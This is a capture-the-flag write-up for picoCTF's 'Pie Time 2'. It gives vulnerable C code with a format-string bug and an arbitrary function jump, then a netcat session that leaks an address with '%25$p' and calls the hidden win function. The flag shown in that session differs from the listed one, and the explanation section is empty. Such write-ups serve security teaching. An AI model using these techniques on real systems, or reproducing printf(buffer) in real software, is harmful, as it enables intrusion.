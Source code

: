 # [Pie Time 2 (Binary Exploitation, Medium)](https://play.picoctf.org/practice/challenge/491) - 
- Description: Can you try to get the flag? I'm not revealing anything anymore!!
 - `vuln.c`
 ```c
 #include <stdio.h>
 #include <stdlib.h>
 #include <signal.h>
 #include <unistd.h>
 
 void segfault_handler() {
   printf("Segfault Occurred, incorrect address.\n");
   exit(0);
 }
 
 void call_functions() {
   char buffer[64];
   printf("Enter your name:");
   fgets(buffer, 64, stdin);
   printf(buffer);
 
   unsigned long val;
   printf(" enter the address to jump to, ex => 0x12345: ");
   scanf("%lx", &val);
 
   void (*foo)(void) = (void (*)())val;
   foo();
 }
 
 int win() {
   FILE *fptr;
   char c;
 
   printf("You won!\n");
   // Open file
   fptr = fopen("flag.txt", "r");
   if (fptr == NULL)
   {
       printf("Cannot open file.\n");
       exit(0);
   }
 
   // Read contents from file
   c = fgetc(fptr);
   while (c != EOF)
   {
       printf ("%c", c);
       c = fgetc(fptr);
   }
 
   printf("\n");
   fclose(fptr);
 }
 
 int main() {
   signal(SIGSEGV, segfault_handler);
   setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered
 
   call_functions();
   return 0;
 }
 ```
 - Hint 1: What vulnerability can be exploited to leak the address?
 - Hint 2: Please be mindful of the size of pointers in this binary
 - Solution:
 - C program with a format string vulnerability, an arbitrary function call via a user-supplied address, a PIE (Position Independent Executable) enabled (function addresses change every run)
 - Goal: Call hidden `win` function to print the flag
 ```bash
 schufot-picoctf@webshell:~$ nc rescued-float.picoctf.net 59092
 Enter your name:%25$p
 0x63e485ca3400
  enter the address to jump to, ex => 0x12345: 0x63e485ca336a
 You won!
 picoCTF{p13_5h0u1dn'7_134k_9650b792}
 ```
- Flag: `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_31cc212b}`
- Explanation:
